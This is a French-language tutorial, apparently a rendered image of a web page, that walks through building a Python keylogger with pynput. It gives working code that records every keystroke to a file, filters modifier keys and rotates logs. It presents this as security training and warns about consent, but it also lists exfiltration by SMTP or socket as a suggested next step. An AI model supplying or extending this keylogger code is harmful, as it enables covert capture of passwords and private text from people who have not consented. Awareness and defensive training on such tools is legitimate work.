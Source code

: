 # Tutoriel : Créer un keylogger basique pour s'entraîner

## 🎯 Objectif  
Concevoir un keylogger Python simple sauvegardant les frappes dans un fichier texte. Parfait pour comprendre leur fonctionnement et apprendre comment s'en protéger.

## 🧠 Scénario d’ancrage émotionnel  
Imaginez un consultant sécurité interceptant son propre clavier pour prouver à un client la dangerosité d’un keylogger malveillant.

---

## 🛠️ Prérequis  
- Linux (Debian/Ubuntu)  
- Python 3  
- Installer `pynput` (ou `keyboard`) via :  
  ```bash
  pip install pynput


⸻

Étape 1 – Capturer les frappes avec pynput

from pynput import keyboard

def on_press(key):
    try:
        k = key.char
    except AttributeError:
        k = f"[{key.name.upper()}]"
    print(k, end='', flush=True)
    with open("keylogs.txt", "a", encoding="utf-8") as f:
        f.write(k)

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()

	•	key.char pour lettres, sinon key.name (ex. [ENTER])
	•	Ouverture en append pour ne pas effacer les logs

⸻

🧩 Étape 2 – Filtrer les touches importantes

Amélioration : ignorer certaines touches comme les contrôles :

ignore = {keyboard.Key.shift, keyboard.Key.ctrl, keyboard.Key.alt}
def on_press(key):
    if key in ignore:
        return
    # log comme avant


⸻

🔄 Étape 3 – Rotation simple des logs (éviter fichiers trop gros)

import os

if os.path.exists("keylogs.txt") and os.path.getsize("keylogs.txt") > 1024*100:
    os.rename("keylogs.txt", "keylogs.old.txt")

Exécuté avant chaque écriture.

⸻

🧠 Analogies & pièges
	•	Caméra cachée : vous captez tout, mais cela peut être illégal sans consentement.
	•	⚠️ Attention : utiliser uniquement sur votre propre machine.
	•	Filtrage important : ne pas logger des touches non utiles.

⸻

🧪 Quiz
	1.	Pourquoi utiliser listener.join() ?
	2.	Que se passe-t-il si on oublie encoding="utf-8" ?
	3.	Pourquoi ignorer ctrl, shift… ?
	4.	Quels risques si le fichier log grossit trop ?
	5.	Comment éviter la perte de données si le script s’interrompt ?

⸻

✅ Cas d’usage
	•	Workshop de sensibilisation
	•	Audit personnel de sécurité
	•	Base pour ajouter exfiltration (SMTP, socket…)

⸻

🔧 Prolongements possibles
	•	Rotations avancées ou compression des logs
	•	Envoi périodique par e-mail ou socket
	•	Interface simple pour lecture en temps réel

⸻

🎓 Résultat attendu

Un script Python minimaliste sauvegardant les frappes, avec filtrage, rotation des fichiers et structure claire.

---

### 📚 Sources  
- Implementation de base avec `pynput`   
- Exemples Windows/Linux via GeeksforGeeks   
- Techniques d’exfiltration SMTP/sockets 
